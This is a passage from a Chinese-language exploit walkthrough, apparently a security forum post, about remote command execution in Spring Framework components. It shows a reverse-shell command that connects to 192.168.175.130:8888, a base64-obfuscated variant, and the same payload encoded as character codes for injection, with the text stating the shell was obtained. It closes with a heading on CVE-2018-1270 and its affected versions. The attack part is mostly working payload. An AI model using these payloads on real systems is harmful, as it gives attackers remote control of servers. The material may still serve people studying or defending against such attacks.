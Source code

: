 进行执行

![image-20210521104331898](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d1e0fedaf59c0cd346166ca36f5f4b9a670afc78.png)

然后我们去docker底层看一下

可以看到是成功创建的

![image-20210521123013062](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-afc01b74d0b56f9ead458818e60fe5e0cd75ed13.png)

#### Poc原理+反弹shell

```php
",".join(map(str, (map(ord,"touch /tmp/a001"))))
'116,111,117,99,104,32,47,116,109,112,47,97,48,48,49'
```

![image-20210521123140977](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9ecb5fc1d11c0324b21a73bfbfea9b33715c21d1.png)

反弹shell

```php
bash -i >&amp; /dev/tcp/192.168.175.130/8888 0>&amp;1
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NS4xMzAvODg4OCAwPiYx}|{base64,-d}|{bash,-i}
```

![image-20210521124108717](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-049124faa9b5800ff32111d621198cfba8483dc6.png)

```php
",".join(map(str, (map(ord,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NS4xMzAvODg4OCAwPiYx}|{base64,-d}|{bash,-i}"))))
```

![image-20210521124214334](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fede11d4cd86d2cd8c1bbad650a6d1890a34b0db.png)

```php
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,69,51,78,83,52,120,77,122,65,118,79,68,103,52,79,67,65,119,80,105,89,120,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
```

进行执行

![image-20210521124336095](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7978b91787aa965945f1120da8308b2d1f814300.png)

成功反弹shell

![image-20210521124346504](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-871262bd94c0b7cb6e3e40bad8ee6014a456e626.png)

### Spring Messaging远程命令执行突破(CVE2018-1270)

#### 影响版本

```php
Spring Framework 5.0 to 5.0.4.
Spring Framework 4.3 to 4.3.14
已经不支持的旧版本依然受到影响
```
